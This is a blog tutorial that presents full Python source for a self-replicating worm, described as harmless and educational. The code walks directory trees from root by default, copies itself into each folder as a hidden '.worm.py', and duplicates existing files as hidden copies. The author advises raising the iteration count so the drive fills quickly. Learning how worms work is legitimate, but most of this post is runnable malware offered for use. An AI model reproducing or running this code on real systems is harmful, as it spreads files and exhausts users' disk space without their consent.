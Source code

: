 ```yaml
---
layout: single
title: "Write a Simple Worm (Malware) in Python"
excerpt:  "Writing a worm in Python can seem like a daunting task, but it's an excellent way to learn about computer security and how these types of programs work. In this blog post, I'll show you how to write a basic, harmless worm, all while gaining valuable knowledge about how these programs operate. By following our step-by-step instructions and learning about the inner workings of a worm, you'll be able to create a functional program that won't cause any damage to your system. So, if you're interested in exploring the world of computer security, read on and discover how to write your own educational worm in Python."
seo_title:  "Learn to Write a Basic Harmless Worm (Malware) in Python"
seo_description:  "Want to understand how a worm works? In this blog post, you'll learn how to write a basic educational harmless worm (malware) in Python. With step-by-step instructions, you'll explore the underlying mechanisms of a worm and learn how to create your own version that won't harm your system."
header:
  image: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Worm
  - Virus
  - Malware
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


`Worm` is type of malware that replicates itself and other files to consume spaces in our hard drives. You may find your drives or partitions get full without any visible reason and that might happen because of a `worm`.

A Worm is different than a computer Virus in a way that typical viruses only infects files and worms replicates files and keep the duplicates out of sight (as hidden files).

In this post, we will learn what are the characteristics of a Worm by writing a basic one in python. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [A Basic Keylogger in Python](https://shantoroy.com/security/a-simple-keylogger-in-python/)
* [Write a Backdoor in Python](https://shantoroy.com/security/simple-backdoor-using-python/)


## Requirements
We will need two modules to write a `worm`. Here, `os` is the most important module and we will utilize it to list all files and directories alongside retrieving the absolute paths.

`shutil` is used to copy file contents. There are obviously other ways to do it, however, I chose to do it using `shutil.copyfile()` method.
```python
import os
import shutil
```

## `Worm` Class
First, let's create a `Worm` class and a initializer method to pass initial arguments to our created class. 
```python
class Worm:
    
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path = "/"
        else:
            self.path = path
            
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list = []
        else:
            self.target_dir_list = target_dir_list
            
        if isinstance(target_dir_list, type(None)):
            self.iteration = 2
        else:
            self.iteration = iteration
        
        # get own absolute path
        self.own_path = os.path.realpath(__file__)
```

Here, we have three arguments:
* path: defines where to start looking for directories (default is set to the `root` directory `/`)
* target_dir_list: user can pass a list of initial target directories. By default it is an empty list `[]`
* iteration: I used this parameter to define how many instances the worm will create for each existing file in a directory (default value is `2` only for testing purpose, you can increase or decrease the number, or better provide valur while creating an object of the class)

### Method to list all Directories and Subdirectories
The first method we need is to list all the target directories and subdirectories where we want to copy our worm and existing files in the directories.

Here, I am avoiding hidden files as it includes the parent directories as well (hidden files starts with dot `.` in Linux or macOS). Other than that it adds a file (directories are also called as `file` in Unix-based file systems) if it is a directory and recursively does so for all of the subdirectories.
```python
    def list_directories(self,path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)
        
        for file in files_in_current_directory:
            # avoid hidden files/directories (start with dot (.))
            if not file.startswith('.'):
                # get the full path
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
```

### Method to Replicate the Worm
To replicate the script itself in all the target directories, we get the absolute path of the script we are running, and than copy the contents in the destination directories creating a new hidden file (starts with a dot `.`) with the same name.
```python
    def create_new_worm(self):
        for directory in self.target_dir_list:
            destination = os.path.join(directory, ".worm.py")
            # copy the script in the new directory with similar name
            shutil.copyfile(self.own_path, destination)
```

### Method to copy existing Files
The following method will be used to duplicate files the number of times the value we have from the `iteration` argument. You can put a large number so that the hard drive will be full soon.
```python
    def copy_existing_files(self):
        for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,("."+file+str(i)))
                        shutil.copyfile(source, destination)
```

### Method to integrate everything
In this method, we will call all of our previous methods. So, when we call this method using our created object, the worm will start all the actions sequentially. If you want a timer or datetime, you can add that functionality. Just check the post: [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/). I have added functionality in that post.
```python
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_files()
```

## Main Function
Now, let’s create our main function and run the code
```python
if __name__=="__main__":
    current_directory = os.path.abspath("")
    worm = Worm(path=current_directory)
    worm.start_worm_actions()
```
The whole code is available in [Github](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/worm/worm.py)

Here, to avoid getting our own drive filled up, let's use the existing directory only using `os.path.abspath("")`, and pass that as argument while creating an object of the `Worm` class. Finally we call the integrating method and we are good to go!

You can look at other security concept tutorials in python. I have created a repository for that. I am planning to provide security concepts by writing python codes. Please feel free to put a star if you like the repository.

[Intro to Cybersecurity in Python](https://github.com/shantoroy/intro-2-cybersecurity-in-python)

Also, the associated blog post links are available in the `ReadMe` file over there.

Have a good day! Cheers!!!


If you find this post helpful, and want to support this blog, you can
<script type="text/javascript" src="https://cdnjs.buymeacoffee.com/1.0.0/button.prod.min.js" data-name="bmc-button" data-slug="shantoroy" data-color="#FFDD00" data-emoji=""  data-font="Cookie" data-text="Buy me a coffee" data-outline-color="#000000" data-font-color="#000000" data-coffee-color="#ffffff" ></script> or

<div style="width: 300px; height: 200px;">
<form action="https://www.paypal.com/donate" method="post" target="_top">
<input type="hidden" name="business" value="Q9F45GULUSYMY" />
<input type="hidden" name="no_recurring" value="0" />
<input type="hidden" name="item_name" value="I appreciate your support! 😊" />
<input type="hidden" name="currency_code" value="USD" />
<input type="image" src="https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif" border="0" name="submit" title="PayPal - The safer, easier way to pay online!" alt="Donate with PayPal button" />
<img alt="" border="0" src="https://www.paypal.com/en_US/i/scr/pixel.gif" width="1" height="1" />
</form></div>

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTg1NjY0NDI1OSw1MDEwNjEwODksLTI5NT
Y5MTAxMywyOTg5MzMzNTQsLTE5ODE3NDI2NTUsMTM1NDExNTY4
M119
-->